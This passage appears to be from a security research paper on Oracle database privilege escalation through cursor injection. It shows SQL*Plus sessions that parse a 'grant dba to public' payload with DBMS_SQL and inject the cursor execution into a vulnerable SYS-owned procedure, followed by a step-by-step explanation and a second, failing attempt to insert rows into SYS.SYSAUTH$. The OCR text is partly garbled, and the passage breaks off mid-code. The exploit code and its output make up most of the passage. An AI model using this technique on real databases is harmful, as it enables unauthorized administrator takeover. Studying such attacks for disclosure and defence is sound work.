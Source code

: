 `SQL> CONNECT SCOTT/PASSWORD `
`Connected. `
`SQL> SET SERVEROUTPUT ON SQL> DECLARE `
`  2  MY_CURSOR NUMBER; `
`  3  RESULT NUMBER; `
`  4  BEGIN `
`  5     MY_CURSOR := DBMS_SQL.OPEN_CURSOR; `
`  6     DBMS_SQL.PARSE(MY_CURSOR,'declare pragma autonomous_transaction; begin execute immediate `*`grant``
 ``dba``   ``to``   ``public`*`; commit; end;',0); `
`  7     DBMS_OUTPUT.PUT_LINE('Cursor value is :' `

| | MY_CURSOR);

`  8  END; `
`  9  / `
`Cursor value is :4 `

`PL/SQL procedure successfully completed. `

`SQL> EXEC SYS.GET_OWNER('AAAA''`

| |CHR(DBMS_SQL.EXECUTE(4))--');

`PL/SQL procedure successfully completed. `

`SQL> SET ROLE DBA; `

`Role set. `

Firstly, we open the cursor and then parse our query - one that'll grant
DBA privileges to PUBLIC. We then print the value of the cursor to the
screen - 4 in this case. We then pass 4 as the argument to the
DBMS_SQL.EXECUTE function when we inject it into the vulnerable
procedure. The DBMS_SQL.EXECUTE function returns a number so we use the
CHR function to convert the number to a character - which can then be
concatenated. When the application defined SELECT query executes so too
does the DBMS_SQL.EXECUTE function - and so the attacker's SQL is
executed with SYS privileges - in this case granting DBA privileges to
PUBLIC.

## Only Half-primed...

Assume, rather than execute 'GRANT DBA TO PUBLIC', which might alert an
intrusion detection/prevention system, the attacker wishes to perform an
INSERT to achieve the same end, in other words, INSERT the relevant rows
into the SYS.SYSAUTH$ table to make PUBLIC a DBA. At this stage, this
new attack technique can not be used to do this. An error is returned
from DBMS_SQL: table or view does not exist:

`SQL> SET SERVEROUTPUT ON `
`SQL> DECLARE `
`  2  MY_CURSOR NUMBER; `
`  3  RESULT NUMBER; `
`  4  BEGIN `
`  5     MY_CURSOR := DBMS_SQL.OPEN_CURSOR; `
`  6     DBMS_SQL.PARSE(MY_CURSOR,'declare pragma autonomous_transaction; begin execute immediate `*`INSERT``
 ``INTO``   ``SYS.SYSAUTH$``   ``(GRANTEE#,``   ``PRIVILEGE#,``
 ``SEQUENCE#)``   ``VALUES(1,4,(SELECT``   ``MAX(SEQUENCE#)+1``
 ``FROM``   ``SYS.SYSAUTH$))`*`; commit; end;',0); `
`  7     DBMS_OUTPUT.PUT_LINE('Cursor value is :' `
